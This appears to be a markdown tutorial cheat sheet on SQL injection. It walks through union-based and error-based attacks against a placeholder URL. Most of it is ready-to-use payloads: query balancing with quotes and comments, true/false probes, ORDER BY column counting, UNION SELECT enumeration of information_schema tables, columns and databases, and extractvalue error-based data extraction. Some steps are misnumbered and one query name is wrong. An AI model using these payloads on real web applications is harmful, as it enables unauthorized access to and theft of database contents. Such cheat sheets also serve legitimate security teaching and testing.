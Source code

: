 <h1>SQL Injection</h1>

SQLi is a server side web security vulnerability.SQLi occurs when user supplied data is passing in SQL querry without sanitization.

Union based SQL Injection
=========================
union base SQLI is a in band type SQLI in which the user supplied data is passes in the select statement after where clause.
And when the sql querry result is shown on the web application.

Let's assume, vulnerable URL is:

     http://b0x.com/vulnerable.php?id=1
1 . Balance the query

     http://b0x.com/vulnerable.php?id=1'-- -
   
     http://b0x.com/vulnerable.php?id=1--
2 . Checking true false condition by using below mentioned payloads 

     http://b0x.com/vulnerable.php?id=1' and 1=1-- -
     http://b0x.com/vulnerable.php?id=1' and 1=2-- -
     
     http://b0x.com/vulnerable.php?id=1' and 1='1
     http://b0x.com/vulnerable.php?id=1' and 1='2     
4. Finding columns 
      
       http://b0x.com/vulnerable.php?id=1' order by 1,2,3,4  
    
    when the error shown as "unknown column" then the one less count no. will be total number of columns.

5. Invalidating output of first query.
6. Using union select 1,2 — -  ——>Union select 1,table_name,3 from information_schema.tables where table_schema=‘mysql’ table_name=‘user’

<b>Find the table name</b> 

    Select table_name from information_schema.tables where table_schema=database()


<b>extract column names</b>

To find column name from specify table and database

    Select column_name from information_schema.columns where table_schema='security' and table_name='user'
To find column name from specify table of current database

    Select column_name from information_schema.columns where table_schema=database() and table_name='user'

<b>Finding the list of databases</b>

      Select group_concat(schema_schema) from information_schema.schemata

Error based SQL Injection
=========================
Errorbase SQLI is a inband SQLi in which web application is throwing SQL server error.

->and extractvalue(1,concat(0x7e,user()))

->We can’t use direct select statement  in this function we have to make it inline query….

and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))

->Here we make it inline query by injecting in (____) field.



